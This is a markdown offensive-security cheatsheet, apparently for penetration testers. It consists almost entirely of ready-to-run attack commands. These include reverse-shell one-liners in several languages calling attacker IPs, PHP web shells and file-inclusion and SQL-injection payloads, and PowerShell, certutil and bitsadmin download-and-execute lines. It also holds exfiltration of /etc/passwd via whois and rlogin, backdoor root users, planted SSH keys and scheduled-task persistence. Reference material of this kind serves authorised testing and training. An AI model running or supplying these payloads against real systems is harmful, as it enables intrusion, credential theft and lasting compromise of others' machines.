

# Pentesting Cheatsheets

## Reconnaissance / Enumeration

### Extracting Live IPs from Nmap Scan

```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

### Simple Port Knocking

```bash
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1; done
```

### DNS lookups, Zone Transfers & Brute-Force

```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

### Banner Grabbing

```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

### NFS Exported Shares

List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute [sid-shell](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c)

```bash
showmount -e 192.168.110.102
chown root:root sid-shell; chmod +s sid-shell
```

### Kerberos Enumeration

```bash
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'
```

### HTTP Brute-Force & Vulnerability Scanning

```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB

```bash
rpcinfo -p $TARGET
nbtscan $TARGET

#list shares
smbclient -L //$TARGET -U ""

# null session
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

### SNMP

```bash
# Windows User Accounts
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.25

# Windows Running Programs
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.4.2.1.2

# Windows Hostname
snmpwalk -c public -v1 $TARGET .1.3.6.1.2.1.1.5

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.3.1.1

# Windows Share Information
snmpwalk -c public -v1 $TARGET 1.3.6.1.4.1.77.1.2.27

# Windows TCP Ports
snmpwalk -c public -v1 $TARGET4 1.3.6.1.2.1.6.13.1.3

# Software Name
snmpwalk -c public -v1 $TARGET 1.3.6.1.2.1.25.6.3.1.2

# brute-force community strings
onesixtyone -i snmp-ips.txt -c community.txt

snmp-check $TARGET
```

### SMTP

```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

### Active Directory

```text
# current domain info
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

# domain trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()

# current forest info
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

# get forest trust relationships
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()

# get DCs of a domain
nltest /dclist:offense.local
net group "domain controllers" /domain

# get DC for currently authenticated session
nltest /dsgetdc:offense.local

# get domain trusts from cmd shell
nltest /domain_trusts

# get user info
nltest /user:"spotless"

# get DC for currently authenticated session
set l

# get domain name and DC the user authenticated to
klist

# get all logon sessions. Includes NTLM authenticated sessions
klist sessions

# kerberos tickets for the session
klist

# cached krbtgt
klist tgt

# whoami on older Windows systems
set u
```

## Gaining Access

### Reverse Shell One-Liners

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### URL-Encoded Perl: Linux

```bash
echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat without -e \#1

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### Netcat without -e \#2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java

```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm

```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE

```java
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells

```bash
# rare cases
ssh bill@localhost ls -l /tmp
```

```bash
nice /bin/bash
```

### Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```python
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```

### Uploading/POSTing Files Through WWW Upload Forms

```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

### PUTing File on the Webhost via PUT verb

```bash
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
```

### Generating Payload Pattern & Calculating Offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
```

### Bypassing File Upload Restrictions

* file.php -&gt; file.jpg
* file.php -&gt; file.php.jpg
* file.asp -&gt; file.asp;.jpg
* file.gif \(contains php code, but starts with string GIF/GIF98\)
* 00%
* file.jpg with php backdoor in exif \(see below\)
* .jpg -&gt; proxy intercept -&gt; rename to .php

### Injecting PHP into JPEG

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php

```text
AddType application/x-httpd-php .blah
```

### Cracking Passwords

#### Cracking Web Forms with Hydra

```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

#### Cracking Common Protocols with Hydra

```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### HashCat Cracking

```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout

# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000

# crack with hashcat
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

### Generating Payload with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux

```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c
```

### Local File Inclusion to Shell

```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files

```bash
file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
http://example.com/index.php?page=zip://shell.jpg%23payload.php

# Loop through file descriptors
curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
```

### Remote File Inclusion Shell: Windows + PHP

```php
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
```

### SQL Injection to Shell or Backdoor

```sql
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
```

```bash
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
```

```bash
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
```

### SQLite Injection to Shell or Backdoor

```sql
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
```

### MS-SQL Console

```bash
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
```

### Upgradig Non-Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
```

### Python Input Code Injection

```python
__import__('os').system('id')
```

## Local Enumeration & Privilege Escalation



### Check if Powershell Logging is Enabled

```text
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging
reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription
```

### Check WinEvent Logs for SecureString Exposure

```csharp
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} | Select-Object -Property Message | Select-String -Pattern 'SecureString'
```

### Check WinEvent for Machine Wake/Sleep times

```csharp
Get-WinEvent -FilterHashTable @{ ProviderName = 'Microsoft-Windows-Power-TroubleShooter'  ; Id = 1 }|Select-Object -Property @{n='Sleep';e={$_.Properties[0].Value}},@{n='Wake';e={$_.Properties[1].Value}}
```

### Audit Policies

```text
auditpol /get /category:*
```

### Binary Exploitation with ImmunityDebugger

#### Get Loaded Modules

```text
# We're interested in modules without protection, Read & Execute permissions
!mona modules
```

#### Finding JMP ESP Address

```text
!mona find -s "\xFF\xE4" -m moduleName
```

### Cracking a ZIP Password

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

### Setting up Simple HTTP server

```bash
# Linux
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -r webrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"
php -S 0.0.0.0:80
```

### MySQL User Defined Fuction Privilge Escalation

Requires [raptor\_udf2.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor_udf2.c) and [sid-shell.c](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c) or [full tarball](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/raptor/raptor.tar)

```bash
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```text
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');
```

### Docker Privilege Esclation

```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```

### Resetting root Password

```bash
echo "root:spotless" | chpasswd
```

### Uploading Files to Target Machine

#### TFTP

```bash
#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file
```

#### FTP

```bash
# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd
```

#### CertUtil

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

#### PHP

```php
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

#### Python

```python
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

#### HTTP: Powershell

```csharp
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); cmd /c nc.exe $ATTACKER 4444 -e cmd.exe" }
powershell -Command "& {(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe'); Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/nc.exe','nc.exe')"; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'"
powershell (New-Object System.Net.WebClient).DownloadFile('http://$ATTACKER/file.exe','file.exe');(New-Object -com Shell.Application).ShellExecute('file.exe');

# download using default proxy credentials and launch
powershell -command { $b=New-Object System.Net.WebClient; $b.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; $b.DownloadString("http://$attacker/nc.exe") | Out-File nc.exe; Start-Process nc.exe -NoNewWindow -Argumentlist '$ATTACKER 4444 -e cmd.exe'" }
```

#### HTTP: VBScript

Copy and paste contents of [wget.vbs](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/wget-cscript) into a Windows Shell and then:

```text
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

#### HTTP: Linux

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

#### NetCat

```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

#### HTTP: Windows "debug.exe" Method

```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

#### HTTP: Windows BitsAdmin

```bash
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

#### Wscript Script Code Download & Execution



```text
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```



```markup
<?xml version="1.0"?>
<package>
<component id="PopCalc">
<script language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc"); 
    ]]>
</script>
</component>
</package>
```



### Whois Data Exfiltration

```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```

### Cancel Data Exfiltration

```bash
cancel -u "$(cat /etc/passwd)" -h ip:port
```

### rlogin Data Exfiltration

```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper

```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\)

```csharp
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat

```csharp
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions

```csharp
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```

### Find File/Folder Permissions Explicitly Set for a Given User

```csharp
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI

```csharp
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials: Windows

```csharp
c:\unattend.xml
c:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Registry
reg query HKLM /f password /t REG_SZ /s 
reg query HKCU /f password /t REG_SZ /s
```

### Unquoted Service Path

```csharp
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

### Persistence via Services

```csharp
# cmd
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""

# powersehll
New-Service -Name EvilName -DisplayName EvilSvc -BinaryPathName "'C:\Program Files\NotEvil\back.exe'" -Description "Not at all"
```

### Port Forwarding / SSH Tunneling

#### SSH: Local Port Forwarding

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel

```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```

#### HTTP Tunnel: SSH Over HTTP

```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
```

#### Netsh - Windows Port Forwarding

```bash
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

### RunAs / Start Process As

#### PowerShell

```bash
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

#### CMD

```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec

```csharp
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

#### Pth-WinExe

```csharp
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows

```bash
dir /A:H /s "c:\program files"
```

### General File Search

```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access

### Browsing Registry Hives

```bash
hivesh /registry/file
```

### Decrypting VNC Password

```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators

```bash
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Creating SSH Authorized Keys

```bash
mkdir /root/.ssh 2>/dev/null; echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali' >> /root/.ssh/authorized_keys
```

### Creating Backdoor User w/o Password

```bash
echo 'spotless::0:0:root:/root:/bin/bash' >> /etc/passwd

# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"
sed 's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2; cat /etc/s2 > /etc/shadow; rm /etc/s2
```

### Creating Another root User

```bash
useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser
```

### Generating OpenSSL Password

```bash
openssl passwd -1 password 
# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.
```

### Persistent Back Doors

```text
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Code Execution / Application Whitelist Bypass

### Ieframe.dll



```text
rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url
```



```
[internetshortcut]
url=c:\windows\system32\calc.exe
```



This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

